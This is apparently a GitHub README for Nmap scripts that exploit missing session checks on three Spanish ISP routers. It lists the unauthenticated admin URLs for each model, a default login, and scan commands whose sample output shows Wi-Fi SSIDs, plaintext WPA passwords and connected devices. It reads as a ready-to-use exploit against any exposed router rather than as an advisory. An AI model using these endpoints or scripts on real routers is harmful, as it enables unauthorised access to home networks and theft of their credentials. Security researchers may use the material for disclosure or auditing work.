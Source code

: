 # What is it?
Some NSE scripts to search information from routers.

#Huawei HG253s v2
Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [VicenDominguez](https://www.github.com/vicendominguez/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IPhtml_253s/api/ntwk/WlanBasic
* http://IP/html_253s/api/system/diagnose_internet
* http://IP/html_253s/api/system/hostinfo?type=ethhost
* http://IP/html_253s/api/system/hostinfo?type=guesthost
* http://IP/html_253s/api/system/hostinfo?type=homehost
* http://IP/html_253s/api/system/hostinfo?type=wifihost
* http://IP/html_253s/api/system/wizardcfg

##Usage
```
nmap --script=http-enum-vodafone-hua253s.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-vodafone-hua253s: 
|   SSID: vodafone070 (14:b9:XX:XX:XX:XX) Password: (AES) 123456
|   Device: android-246e67b281179679-Wireless MAC: 48:5A:3F:XX:XX:XX IP: 192.168.0.XX

```
#Comtrend VG 8050
Telefonica-Spain is starting to rent a new Comtrend VG 8050 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IP/getWifiInfo.jx
* http://IP/listDevices.jx
* http://IP/infoApplications.jx

##Usage
```
nmap --script=http-enum-telefonica-comtrend-vg-8050.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-comtrend-vg-8050: 
|   SSID: MOVISTAR_XXX
|   Cipher Algorithm: WPA
|   Password WEP: 
|   Password WPA: gTU3NkXE44RYjuM2RrxM
|   Password WPA2: 
|   Device: 192.168.0.X MAC: 5c:97:X:X:X:X IP: 192.168.0.X

```
#ADB P.DGA4001N a.ka HomeStation
Telefonica-Spain is starting to rent a new ADB P.DGA4001N router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IP/getWifiInfo.jx
* http://IP/listDevices.jx
* http://IP/infoApplications.jx

Add the credentials by default are admin / 1234
##Usage
```
nmap --script=http-enum-telefonica-homestation.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-homestation: 
|   SSID: WLAN_HOME
|   Cipher Algorithm: WEP
|   Device: IphonePedro MAC: A8:8E:24:X:X:X IP: 192.168.1.X

```
